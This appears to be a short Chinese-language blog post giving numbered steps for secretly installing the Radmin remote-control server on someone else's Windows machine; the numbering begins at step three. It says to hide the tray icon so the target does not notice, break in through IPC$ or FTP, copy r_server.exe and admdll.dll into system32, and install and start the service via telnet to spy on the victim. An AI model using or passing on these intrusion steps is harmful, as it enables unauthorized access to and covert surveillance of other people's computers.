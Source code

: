 ```yaml
---
layout: post
title: Radmin / Remote  
tags: Misc
categories: 💻-Win
---
```



## Radmin / Remote
Remote Administrator

把Radmin的密码，选项和安装服务设置好，并且在hide那里打上“勾”（如果不打“勾”的话，到时候入侵的时候，目标的任务栏会出现一个小托盘，这样我们就容易暴露了）

三：利用IPC$或FTP攻击目标，映射目标C盘，把本机C：\winnt\system32下的r\_server.exe和admdll.dll2个文件复制到目标C盘下的winnt\system32\里面 

四：开始——运行，输入：telnet，然后输入r\_server /install，然后再输入：net start r\_server 五：连接到目标看看是不是可以看到对方在干什么了！- -！！！